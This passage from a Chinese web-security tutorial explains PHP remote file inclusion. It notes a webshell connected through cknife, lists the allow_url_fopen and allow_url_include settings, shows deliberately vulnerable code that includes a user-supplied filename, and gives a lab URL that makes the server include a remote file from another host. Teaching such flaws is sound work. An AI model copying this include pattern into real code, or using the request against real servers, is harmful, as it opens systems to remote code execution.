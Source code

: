 使用cknife连接shell
![81c0d3f801432d5dc854cb48dd3bec3a.png](../../images/d3be354fdc7c4d7eb22369dc29f4f505.png)

## 3远程文件包含

PHP的配置文件allow_url_fopen和allow_url_include设置为ON，include/require等包含函数可以加载远程文件，如果远程文件没经过严格的过滤，导致了执行恶意文件的代码，这就是远程文件包含漏洞。

```
    allow_url_fopen = On（是否允许打开远程文件）

    allow_url_include = On（是否允许include/require远程文件）
```

## 3.1无限制远程文件包含漏洞

测试代码：

```
<?php
    $filename  = $_GET['filename'];
    include($filename);
?>

```

http://172.16.3.186/test/incliue.php?filename=http://172.16.3.183/php.txt
